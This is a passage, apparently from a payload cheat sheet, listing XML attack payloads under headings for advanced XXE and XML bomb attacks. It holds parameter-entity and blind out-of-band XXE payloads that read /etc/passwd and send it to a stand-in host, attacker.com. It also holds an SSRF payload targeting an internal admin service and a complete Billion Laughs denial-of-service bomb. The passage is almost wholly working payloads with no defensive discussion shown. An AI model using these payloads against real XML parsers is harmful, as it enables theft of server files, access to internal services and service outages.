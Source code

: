 ### 2. Advanced XXE Techniques

**Parameter Entity XXE:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<root>&send;</root>


<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; send SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
```

**Blind XXE with Out-of-Band Exfiltration:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY % remote SYSTEM "http://attacker.com/xxe.dtd">
  %remote;
]>
<root></root>


<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/exfil.php?data=%file;'>">
%eval;
%exfil;
```

**SSRF via XXE:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "http://internal-service:8080/admin">
]>
<root>&xxe;</root>
```

### 3. XML Bomb Attacks

**Billion Laughs Attack:**
```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
